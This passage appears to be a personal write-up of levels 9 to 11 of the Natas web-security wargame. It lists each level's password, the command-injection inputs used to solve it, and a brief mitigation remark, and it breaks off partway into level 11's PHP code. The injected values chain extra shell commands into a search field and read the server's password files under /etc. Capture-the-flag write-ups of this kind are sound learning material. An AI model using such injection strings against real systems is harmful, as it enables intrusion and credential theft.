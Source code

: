 #### Credentials
natas9
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

#### How you passed the challenge
xxxx dictionary.txt; find / -name *natas*;
xxxx dictionary.txt; cat /etc/natas_webpass/natas10

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
Clearly, ensure data validation and limit the use of passthru PHP command. 



---
### Natas 10

#### Credentials
natas10
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

#### How you passed the challenge
I saw many password files in the previous exercise so, had to look for a command that allows me to read
files without using the blocked characters. -v does the trick if we know what file we are aiming at.
-v - /etc/natas_webpass/natas11

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
** Mitigations here **



---
### Natas 11

#### Credentials
natas11
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

#### How you passed the challenge

<?php
function xor_encrypt($in) {
    $key = 'KNHL'; // Use unencrypted string as key
    $text = $in;
    $outText = '';
